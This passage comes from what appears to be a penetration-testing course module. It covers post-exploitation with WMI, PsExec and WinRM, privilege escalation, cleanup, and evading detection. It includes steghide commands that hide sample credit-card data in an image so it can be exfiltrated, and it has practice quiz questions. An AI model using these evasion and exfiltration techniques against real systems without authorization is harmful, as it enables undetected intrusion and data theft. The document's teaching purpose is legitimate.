Windows Management Instrumentation (WMI) is used to manage data and operations on Windows operating systems. You can write WMI scripts or applications to automate administrative tasks on remote computers. WMI also provides functionality for data management to other parts of the operating system, including the System Center Operations Manager (formerly Microsoft Operations Manager [MOM]) and Windows Remote Management (WinRM). Malware can use WMI to perform different activities in a compromised system. For example, the Nyeta ransomware used WMI to perform administrative tasks.
WMI can also be used to perform many data-gathering operations. Pen testers therefore use WMI as a quick system-enumerating tool.
Sysinternals and PsExec
Sysinternals is a suite of tools that allows administrators to control Windows-based computers from a remote terminal. You can use Sysinternals to upload, execute, and interact with executables on compromised hosts. The entire suite works from a command-line interface and can be scripted. By using Sysinternals, you can run commands that can reveal information about running processes, and you can kill or stop services. Penetration testers commonly use the following Sysinternals tools post-exploitation:
- PsExec: Executes processes
- PsFile: Shows open files
- PsGetSid: Displays security identifiers of users
- PsInfo: Gives detailed information about a computer
- PsKill: Kills processes
- PsList: Lists information about processes
- PsLoggedOn: Lists logged-in accounts
- PsLogList: Pulls event logs
- PsPassword: Changes passwords
- PsPing: Starts ping requests
- PsService: Makes changes to Windows services
- PsShutdown: Shuts down a computer
- PsSuspend: Suspends processes
PsExec is one of the most powerful Sysinternals tools. You can use it to remotely execute anything that can run on a Windows command prompt. You can also use PsExec to modify Windows registry values, execute scripts, and connect a compromised system to another system. For attackers, one advantage of PsExec is that the output of the commands you execute is shown on your system (the local system) instead of on the victim's system. This allows an attacker to remain undetected by remote users.
The PsExec tool can also copy programs directly to the victim system and remove those programs after the connection ceases.
Because of the -i option, the following PsExec command interacts with the compromised system to launch the calculator application, and the -d option returns control to the attacker before the launching of calc.exe is completed:
You can also use PsExec to edit registry values, which means applications can run with system privileges and have access to data that is normally locked. This is demonstrated in the following example:
Windows Remote Management (WinRM) for Post-Exploitation Tasks
Windows Remote Management (WinRM) gives you a legitimate way to connect to Windows systems. WinRM is typically managed by Windows Group Policy (which is typically used for managing corporate Windows environments).
WinRM can be useful for post-exploitation activities. An attacker could enable WinRM to allow further connections to the compromised systems and maintain persistent access. You can easily enable WinRM on a Windows system by using the following command:
This command configures the WinRM service to automatically start and sets up a firewall rule to allow inbound connections to the compromised system.
8.2.4 Practice — Post Exploitation
What post-exploitation technique can an attacker use to identify multiple attack paths and can also be used by incident response teams to detect and eliminate those same attack paths?
What is the main disadvantage of the Remote Desktop tool?
Match the living-off-the-land post-exploitation technique to the description.
- PowerShell — Get directory listings, copy and move files, get a list of running processes, and perform administrative tasks
- Sysinternals — Suite of tools that allows administrators to control Windows-based computers from a remote terminal
- WinRM — A legitimate way to connect to Windows systems, typically managed by Windows Group Policy
- PowerSploit — Collection of PowerShell modules that can be used for post-exploitation and other phases of an assessment
- Empire — Open-source framework that includes a PowerShell Windows agent and a Python Linux agent
- WMI — Used to manage data and operations on Windows operating systems
- BloodHound — Single-page JavaScript web application that uses graph theory to reveal the hidden relationships in a Windows Active Directory environment
Match the Sysinternals tool to the description.
- PsGetSid — Displays security identifiers of users
- PsLogList — Pulls event logs
- PsInfo — Gives detailed information about a computer
- PsList — Lists information about processes
- PsLoggedOn — Lists logged-in accounts
What are two characteristics of Windows Management Instrumentation (WMI)? (Choose two.)
What are two characteristics of Windows Remote Management (WinRM)? (Choose two.)
8.2.5 Post-Exploitation Privilege Escalation
In Module 7, "Cloud, Mobile, and IoT Security," you learned that privilege escalation is the act of gaining access to resources that normally would be protected from an application or a user. This results in a user gaining additional privileges beyond those that were originally intended by the developer of the application.
In Module 7, you also learned that there are two general types of privilege escalation. Select each for more detail.
Vertical Privilege Escalation
With vertical privilege escalation, as illustrated in Figure 8-7, a lower-privileged user accesses functions reserved for higher-privileged users (such as root or administrator access).

Horizontal Privilege Escalation
With horizontal privilege escalation, as illustrated in Figure 8-8, a regular user accesses functions or content reserved for other non-root or non-admin users. For instance, say that after exploiting a system, you are able to get shell access as the user omar. However, that user does not have permissions to read some files on the system. You then find that another user, hannah, has access to those files. You then find a way to escalate your privileges as the user hannah to access those files.

8.2.6 Practice — Post Exploitation Privilege Escalation
You have noticed that the Pixel Paradise website uses a user ID parameter in the URLs for authenticated access to their game reviews and support forum as shown:
You notice that the account ID values for other users can be accessed from their posts in the forum. You create a URL using another user's id and get access to their account.
What type of exploit will you document in the Pixel Paradise final pentest report?
8.2.7 How to Cover Your Tracks
After compromising a system during a penetration testing engagement, you should always cover your tracks to avoid detection by suppressing logs (when possible), deleting user accounts that could have been created on the system, and deleting any files that were created. In addition, after a penetration testing engagement is complete, you should clean up all systems. As a best practice, you should discuss these tasks and document them in the rules of engagement document during the pre-engagement phase. The following are a few best practices to keep in mind during the cleanup process:
- Delete all user accounts used during the test.
- Delete all files, executable binaries, scripts, and temporary files from compromised systems. A secure deletion method may be preferred. NIST Special Publication 800-88, Revision 1: "Guidelines for Media Sanitization," provides guidance for media sanitation. This methodology should be discussed with your client and the owner of the affected systems.
- Return any modified systems and their configuration to their original values and parameters.
- Remove all backdoors, daemons, services, and rootkits installed.
- Remove all customer data from your systems, including attacking systems and any other support systems. Typically, you should do this after creating and delivering the penetration testing report to the client.
Steganography
Attackers can use steganography for obfuscation, evasion, and to cover their tracks. Steganography involves hiding a message or any other content inside an image or a video file. To accomplish this task, you can use tools such as steghide. You can easily install this tool in a Debian-based Linux system by using the command sudo apt install steghide. Example 8-10 shows the steghide command usage and help information.
Example 8-10 — steghide Command Usage
|---- $steghide --help
steghide version 0.5.1
the first argument must be one of the following:
embed, --embed embed data
extract, --extract extract data
info, --info display information about a cover- or
stego-file
info <filename> display information about <filename>
encinfo, --encinfo display a list of supported encryption
algorithms
version, --version display version information
license, --license display steghide's license
help, --help display this usage information
embedding options:
-ef, --embedfile select file to be embedded
-ef <filename> embed the file <filename>
-cf, --coverfile select cover-file
-cf <filename> embed into the file <filename>
-p, --passphrase specify passphrase
-p <passphrase> use <passphrase> to embed data
-sf, --stegofile select stego file
-sf <filename> write result to <filename> instead of
cover-file
-e, --encryption select encryption parameters
-e <a>[<m>]|<m>[<a>] specify an encryption algorithm and/or mode
-e none do not encrypt data before embedding
-z, --compress compress data before embedding (default)
-z <l> using level <l> (1 best speed...9 best
compression)
-Z, --dontcompress do not compress data before embedding
-K, --nochecksum do not embed crc32 checksum of embedded data
-N, --dontembedname do not embed the name of the original file
-f, --force overwrite existing files
-q, --quiet suppress information messages
-v, --verbose display detailed information
extracting options:
-sf, --stegofile select stego file
-sf <filename> extract data from <filename>
-p, --passphrase specify passphrase
-p <passphrase> use <passphrase> to extract data
-xf, --extractfile select file name for extracted data
-xf <filename> write the extracted data to <filename>
-f, --force overwrite existing files
-q, --quiet suppress information messages
-v, --verbose display detailed information
options for the info command:
-p, --passphrase specify passphrase
-p <passphrase> use <passphrase> to get info about
embedded data
To embed emb.txt in cvr.jpg: steghide embed -cf cvr.jpg -ef emb.txt
To extract embedded data from stg.jpg: steghide extract -sf stg.jpg
|--[omar@websploit]-[~]
|---- $
Let's take a look at an example of how to embed sensitive information and hide a message within an image file by using steganography. In Example 8-11, a file called secret.txt includes sensitive information (credit card data) that will be exfiltrated using steganography.
Example 8-11 — Sensitive Data to Be Hidden Using Steganography
|---- $cat secret.txt
Credit card data:
4011 5555 5555 5555 5555 exp 08/29 ccv: 123
4021 6666 7777 8888 9999 exp 02/29 ccv: 321
|--[omar@websploit]-[~]
|---- $
Example 8-12 shows how to embed this sensitive data (secret.txt) into an image file (websploit-logo.png) by using steghide.
Example 8-12 — Using steghide to Hide Sensitive Data in an Image File
|---- $steghide embed -ef secret.txt -cf websploit-logo.jpg
Enter passphrase: this-is-a-passphrase
Re-Enter passphrase: this-is-a-passphrase
embedding "secret.txt" in "websploit-logo.jpg"... done
|--[omar@websploit]-[~]
|---- $
Example 8-13 shows how the sensitive data is retrieved from the image and saved in a file (extracted_data.txt).
Example 8-13 — Extracting Hidden Data from an Image File
|---- $steghide extract -sf websploit-logo.jpg -xf extracted_data.txt
Enter passphrase: this-is-a-passphrase
wrote extracted data to "extracted_data.txt".
Example 8-14 shows the contents of the extracted data file (extracted_data.txt).
Example 8-14 — The Contents of the Extracted Data File
|---- $cat extracted_data.txt
Credit card data:
4011 5555 5555 5555 5555 exp 08/29 ccv: 123
4021 6666 7777 8888 9999 exp 02/29 ccv: 321
|--[omar@websploit]-[~]
|----$
8.2.8 Practice — Steganography
You are investigating a means of exfiltrating a non-sensitive file that you have discovered on a protected Pixel Paradise server that you have been able to gain access to. This would demonstrate that undetected exfiltration is possible with the current security posture of the company.
You are looking at potentially hiding the text of the document file in a screen grab image of one of their games. Which tool can you use to create the screen grab file?
You are looking at potentially hiding the text of the document file in a screen grab image of one of their games. Which tool can you use to create the screen grab file?